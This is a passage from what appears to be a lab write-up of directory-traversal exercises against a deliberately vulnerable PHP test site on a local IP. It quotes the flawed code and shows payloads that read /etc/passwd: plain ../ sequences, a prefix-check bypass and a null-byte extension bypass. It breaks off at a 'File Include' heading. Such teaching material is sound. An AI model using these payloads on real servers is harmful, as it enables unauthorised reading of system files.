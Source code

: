 

There is no filtering involved, so I displayed the */etc/passwd* file with: http://192.168.217.138/dirtrav/example1.php?file=../../../../../etc/passwd


{% img center /images/pentest/webpentester/passwd.png 'passwd file' 'passd file' %}


**Example2**

The path for this one is <code>dirtrav/example2.php?file=/var/www/files/hacker.png</code>. In the code, we are only interested in the parts that manipulate the file to be included:


``` php
$file = $_GET['file'];

if (!(strstr($file,"/var/www/files/")))
	die();
```


The script tries to enforce the location of the file to be in /var/www/files, but we can leave it as it is and just go up a few directories and include the passwd file again: <code>file=/var/www/files/../../../etc/passwd</code>.

**Example 3**

Here is the path: <code>dirtrav/example3.php?file=hacker</code>

And the code:


``` php
$UploadDir = '/var/www/files/'; 

if (!(isset($_GET['file'])))
	die();


$file = $_GET['file'];

$path = $UploadDir . $file.".png";
// Simulate null-byte issue that used to be in filesystem related functions in PHP
$path = preg_replace('/\x00.*/',"",$path);

if (!is_file($path))
	die();
```


The code gives the hint of exploiting this: the null byte, which will make the system ignore anything that comes after it. So the extension check will be bypassed: <code>file=../../../../../etc/passwd%00</code>


### File Include

**Example 1**

